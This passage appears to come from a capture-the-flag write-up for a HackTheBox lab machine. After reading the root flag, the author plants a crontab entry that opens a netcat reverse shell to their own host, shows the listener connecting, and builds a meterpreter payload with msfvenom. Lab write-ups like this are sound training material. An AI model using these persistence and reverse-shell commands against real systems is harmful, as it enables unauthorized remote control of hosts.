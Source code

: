 The file system is mounted. I have access to the /root directory.

## Root Flag

---

Let's get the root flag:

```bash
root@gitlab:/mnt/filesystem/root# cat root.txt 
b7**************************c2b3
```

## Root Shell On The Host

---

To have access to the file system was not enough for me. I want a shell on the host. I can do this with a cronjob. 

First, I checked if netcat is installed on the host's system:

```bash
root@gitlab:/mnt/filesystem/root# which nc
/bin/nc
root@gitlab:/mnt/filesystem/root# cd ..
root@gitlab:/mnt/filesystem# cd bin
root@gitlab:/mnt/filesystem/bin# ls -l nc
lrwxrwxrwx 1 root root 20 Apr 23  2020 nc -> /etc/alternatives/nc
```

It is, to it's time to edit /etc/crontab and add this line:

```bash
* * * * *       root    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bas -i 2>&1|nc 10.10.16.6 443 >/tmp/f >/dev/null 2>&1
```

Now, wait a minute and look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.220] 48070
bash: cannot set terminal process group (73577): Inappropriate ioctl for device
bash: no job control in this shell
root@ready:~# exit
```

That is strange, the shell exits automatically. Before giving up, I try a meterpreter shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: shell.elf
```
